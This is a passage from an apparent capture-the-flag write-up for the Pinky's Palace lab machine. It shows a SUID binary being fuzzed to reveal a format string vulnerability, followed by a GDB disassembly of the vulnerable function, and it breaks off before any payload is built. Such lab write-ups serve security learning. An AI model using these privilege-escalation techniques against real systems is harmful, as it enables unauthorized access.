 Now we have the other SUID file worth investigating as we're now `pinksecmanagement`.
```bash
-rwsrwx--- 1 pinky pinksecmanagement 7396 May 14 19:06 /usr/local/bin/PSMCCLI  
```  
Fuzzing reveals it echos out our arguments, so a classic format string vulnerability.
```bash  
pinksecmanagement@pinkys-palace:~$ /usr/local/bin/PSMCCLI  
[+] Pink Sec Management Console CLI  
pinksecmanagement@pinkys-palace:~$ /usr/local/bin/PSMCCLI 1  
[+] Args: 1  
pinksecmanagement@pinkys-palace:~$ /usr/local/bin/PSMCCLI %x  
[+] Args: bffff744  
```  
I'm not going to go into the theory too deeply, but if you're new to these Code Arcana's [Introduction to format string exploits](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html) is probably the best resource.

As a quick aside, I'm not a fan of doing these things blind, as debugging inside and outside GDB is a pain in the arse.  All commands as well as debugging therefore, takes place using the invoke script from [this stack-overflow answer](https://stackoverflow.com/a/17775966).  In this I will be using a mixture of local disassembly, and debugging remotely using a [static gdb binary](https://github.com/hugsy/gdb-static).

Firstly, the disassembly shows that a functions called `argshow` is called within `main`.  
  
```bash
0x0804852b <+71>: call 0x804849b <argshow>  
```  
Disassembly doesn't show much interesting, it's the classic format string pwnable.
```gdb
pwndbg> disass argshow  
Dump of assembler code for function argshow:  
0x0804849b <+0>: push ebp  
0x0804849c <+1>: mov ebp,esp  
0x0804849e <+3>: push ebx  
0x0804849f <+4>: sub esp,0x4  
0x080484a2 <+7>: call 0x80483d0 <__x86.get_pc_thunk.bx>  
0x080484a7 <+12>: add ebx,0x1b59  
0x080484ad <+18>: sub esp,0xc  
0x080484b0 <+21>: lea eax,[ebx-0x1a30]  
0x080484b6 <+27>: push eax  
0x080484b7 <+28>: call 0x8048340 <printf@plt>  
0x080484bc <+33>: add esp,0x10  
0x080484bf <+36>: sub esp,0xc  
0x080484c2 <+39>: push DWORD PTR [ebp+0x8]  
0x080484c5 <+42>: call 0x8048340 <printf@plt>  
0x080484ca <+47>: add esp,0x10  
0x080484cd <+50>: sub esp,0xc  
0x080484d0 <+53>: push 0xa  
0x080484d2 <+55>: call 0x8048380 <putchar@plt>  
0x080484d7 <+60>: add esp,0x10  
0x080484da <+63>: sub esp,0xc  
0x080484dd <+66>: push 0x0  
0x080484df <+68>: call 0x8048360 <exit@plt>  
End of assembler dump.  
```  
